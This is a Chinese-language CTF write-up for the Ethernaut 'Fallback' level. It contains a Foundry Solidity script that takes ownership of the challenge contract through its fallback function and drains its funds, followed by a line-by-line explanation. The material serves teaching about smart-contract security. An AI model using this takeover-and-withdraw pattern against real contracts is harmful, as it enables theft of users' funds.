 ```yaml
---
layout: post
title: "Ethernaut-Fallback"
date: 2024-08-29 12:00:00 +0800
author: [001]
categories: [Ethernaut]
tags: [CTF]
---
```


### POC

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.21;

import {Script, console2} from "forge-std/Script.sol";
import {EthernautHelper} from "../setup/EthernautHelper.sol";

// NOTE You can import your helper contracts & create interfaces here
import {Fallback} from "../../challenge-contracts/01-Fallback.sol";

contract FallbackSolution is Script, EthernautHelper {
    address constant LEVEL_ADDRESS = 0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB;
    uint256 heroPrivateKey = vm.envUint("PRIVATE_KEY");
    
    function run() public {
        vm.startBroadcast(heroPrivateKey);
        // NOTE this is the address of your challenge contract
        address challengeInstance = createInstance(LEVEL_ADDRESS);

        // YOUR SOLUTION HERE
        Fallback(payable(challengeInstance)).contribute{value:0.0001 ether}();
        (bool success, ) = payable(challengeInstance).call{value:1 wei}("");
        require(success, "Transfer failed.");
        Fallback(payable(challengeInstance)).withdraw();

        // SUBMIT CHALLENGE. (DON'T EDIT)
        bool levelSuccess = submitInstance(challengeInstance);
        require(levelSuccess, "Challenge not passed yet");
        vm.stopBroadcast();

        console2.log(successMessage(1));
    }
}
```
### 程式碼區段說明


## 套件與合約的引入
```
import {Script, console2} from "forge-std/Script.sol";
import {EthernautHelper} from "../setup/EthernautHelper.sol";
import {Fallback} from "../../challenge-contracts/01-Fallback.sol";
```

* Script 和 console2 是 Foundry 提供的標準腳本模組，用來執行與輸出調試訊息。
* EthernautHelper 是一個輔助模組，用來與 Ethernaut 挑戰互動。這通常包含一些方法來創建關卡實例或提交解題結果。
* Fallback 是 Ethernaut 挑戰中的合約，這是一個需要玩家奪取合約控制權並提取資金的挑戰。

## 常量和私鑰

```
address constant LEVEL_ADDRESS = 0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB;
uint256 heroPrivateKey = vm.envUint("PRIVATE_KEY");
```

*  LEVEL_ADDRESS 是 Ethernaut "Fallback" 挑戰合約的地址。
*  heroPrivateKey 是從環境變數中讀取的玩家私鑰，用來廣播交易。



## run 函數

```
function run() public {
    vm.startBroadcast(heroPrivateKey);
    address challengeInstance = createInstance(LEVEL_ADDRESS);
```

* vm.startBroadcast(heroPrivateKey) 會以指定的私鑰開始交易廣播，允許後續執行合約互動。
* createInstance(LEVEL_ADDRESS) 創建一個 Ethernaut 關卡實例，這將返回挑戰合約的地址。


## 解決方案的實施


```
    Fallback(payable(challengeInstance)).contribute{value:0.0001 ether}();
    (bool success, ) = payable(challengeInstance).call{value:1 wei}("");
    require(success, "Transfer failed.");
    Fallback(payable(challengeInstance)).withdraw();
```

* Fallback(payable(challengeInstance)).contribute{value:0.0001 ether}()：向挑戰合約的 contribute() 函數發送 0.0001 Ether 進行貢獻，這一步是取得某些權限的先決條件。
* (bool success, ) = payable(challengeInstance).call{value:1 wei}("");：這行是向合約發送 1 wei 的 Ether，觸發該合約的 fallback 函數。這個操作會讓玩家成為合約的擁有者，因為挑戰合約中的 fallback 函數允許如果有人直接發送資金給合約且貢獻大於 0，則會變更合約所有權。
* Fallback(payable(challengeInstance)).withdraw();：這行呼叫 withdraw() 函數，提取合約中的所有資金。

## 提交

```
    bool levelSuccess = submitInstance(challengeInstance);
    require(levelSuccess, "Challenge not passed yet");
    vm.stopBroadcast();
    console2.log(successMessage(1));
}
```

* submitInstance(challengeInstance) 用來提交挑戰結果，這是 Ethernaut 平台所要求的步驟。
* 成功後，透過 console2.log(successMessage(1)); 顯示成功訊息。


